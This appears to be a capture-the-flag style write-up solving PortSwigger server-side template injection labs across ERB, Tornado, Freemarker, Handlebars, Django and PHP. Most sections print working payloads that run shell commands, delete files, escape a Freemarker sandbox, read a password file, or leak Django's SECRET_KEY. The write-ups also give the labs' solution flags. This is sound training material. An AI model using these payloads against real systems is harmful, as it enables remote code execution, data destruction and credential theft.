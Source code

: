 ## Basic SSTI
[Basic SSTI](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

Write-up:

1. When we click the first product, we see the message "Unfortunately this product is out of stock."
If we change the message parameter to `<%= 7*7 %>`, we see that it returns 49 - ERB injection possibility.

2. Changing the message parameter to `<%= system 'ls' %>` shows us the **morale.txt** file.
   
3. We can use `<%= system 'rm morale.txt' %>` to solve the lab.

## Basic SSTI (code context)
[Basic SSTI (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

Write-up:

1. After logging in, we see there are two actions in our account - changing e-mail and preferred name.
Analyzing both these requests shows us that changing preferred name has an interesting parameter that changes our name display in post comments. For example, changing preferred name to name uses parameter `blog-post-author-display=user.name`.

2. After studying the Tornado docs, we see that its template expressions are surrounded by curly braces, so we can use these to escape and execute code: <br>
    `blog-post-author-display=user.name}}{{7*7}}` <br>
    This shows us 49, which points to code being executed.

3. Using {% %} to execute arbitrary code, we can craft the following payload: <br>
    `blog-post-author-display=user.name}}{%25%20import%20os%20%25}{{os.system('rm%20/home/carlos/morale.txt')}}` <br>
    URL-encoding the necessary characters (spaces - %20 and % - %25). This solves the lab.

## SSTI using documentation
[SSTI using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

Write-up:

1. We are instructed to discover the template engine used. If we click one of the posts, we have
the option to edit a template, we can see that code is being executed to retrieve stock, for example.

2. Using this [tool](https://cheatsheet.hackmanit.de/template-injection-table/), 
we discover that this lab uses a Freemarker template.

3. Using the [documentation](https://freemarker.apache.org/docs/api/index.html), we craft the following payload: <br> `${"freemarker.template.utility.Execute"?new()("rm morale.txt")}` <br> This solves the lab.

## SSTI in an unknown language with a documented exploit
[SSTI in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

Write-up:

1. Like in the **Basic SSTI** lab, we can change a message parameter. Using this
[tool](https://cheatsheet.hackmanit.de/template-injection-table/), we discover 
this lab is using a Handlebars template (Javascript).

2. Searching the internet for documented Handlebars SSTI exploits, we find this
[link](https://gist.github.com/vandaimer/b92cdda62cf731c0ca0b05a5acf719b2).

3. Using the Node.js [docs](https://nodejs.org/api/child_process.html) for child_process,
we can craft the following payload:
    ```handlebars
    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');" }}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
            {{/with}}
            {{/each}}
        {{/with}}
        {{/with}}
    {{/with}}
    {{/with}}
    ```

4. URL-encoding this payload and submitting it as **message** solves the lab.

## SSTI with information disclosure via user-supplied objects
[SSTI with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

Write-up:

1. After logging in, we are able to edit templates, and we discover that a Django 
template with Python 2.7 is being used.

2. Upon researching Django SSTI, we can find this [website](https://www.wallarm.com/what/server-side-template-injection-ssti-vulnerability).
It shows us that we can try to access {{settings}}, and possibly {{settings.SECRET_KEY}}, which are both possible.
This reveals the solution: **xd4klewsdwzux56wdrfdxgaajj8ekyr0**

## SSTI in a sandboxed environment
[SSTI in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)

Write-up:

1. We are told the website uses a Freemarker template and that we should break out
of the sandbox and read flag at home/carlos/my_password.txt. After logging in,
we see that we can once again edit the posts' templates.

2. Attempting to use the payload `${"freemarker.template.utility.Execute"?new()("cat /home/carlos/my_password.txt")}`
fails due to the sandboxed environment: <br>
"Instantiating freemarker.template.utility.Execute is not allowed in the template for security reasons."

1. After some research, we can find the following [documented exploit](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack). We use it
to craft the following payload: <br>
`${product.class.protectionDomain.classLoader.loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(product.class.protectionDomain.classLoader.loadClass("freemarker.template.utility.Execute"),null)("cat /home/carlos/my_password.txt")}` <br>
This gets us the solution: **6ahblydrrpsffr1ru83r**

## SSTI with a custom exploit
[SSTI with a custom exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)

Write-up:

1. We need to discover which template engine the lab is using and then craft a 
payload to delete /home/carlos/.ssh/id_rsa. After logging in, we find a setup similar to
**Basic SSTI (code context)**. 

2. In our "My account" page, we have access to 2 different relevant POST requests: 
`POST /my-account/avatar` and `POST /my-account/change-blog-post-author-display`.
These are relevant because we can see the changes being applied when we open a post's comments.

3. When we upload an invalid image, we find out a user.SetAvatar() method exists, and that there
is a /home/carlos/User.php. <br>
`blog-post-author-display=user.setAvatar("/home/carlos/User.php","image/png")` <br>
This payload makes it so that the avatar is the relevant php file, and a GET request to it
allows us access to the file.

4. We see there is a method called gdprDelete which happens to delete the avatar file.
    ```php
    blog-post-author-display=user.setAvatar("/home/carlos/.ssh/id_rsa","image/png")
    blog-post-author-display=user.gdprDelete()
    ```

    These 2 payloads solve the lab.

